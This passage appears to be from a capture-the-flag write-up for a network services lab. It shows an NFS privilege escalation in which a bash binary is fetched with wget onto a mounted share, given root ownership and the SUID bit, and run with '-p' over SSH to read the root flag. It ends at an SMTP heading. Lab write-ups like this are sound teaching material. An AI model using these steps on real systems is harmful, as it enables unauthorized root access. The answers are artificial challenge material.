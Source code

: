 ### **What letter do we use to set the SUID bit set using chmod?**

```
cd /tmp/mount/cappucino/
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
sudo chown root:root bash
sudo chmod +sx bash
```

### **What does the permission set look like?**

```bash
ls -l bash
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 17-29-49.png>)

### **What's the root flag?**

```bash
cd
ssh -i id_rsa cappucino@10.10.195.187
$ ./bash -p
# cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 17-31-09.png>)

## :incoming\_envelope: SMTP

### **What does SMTP stand for?**
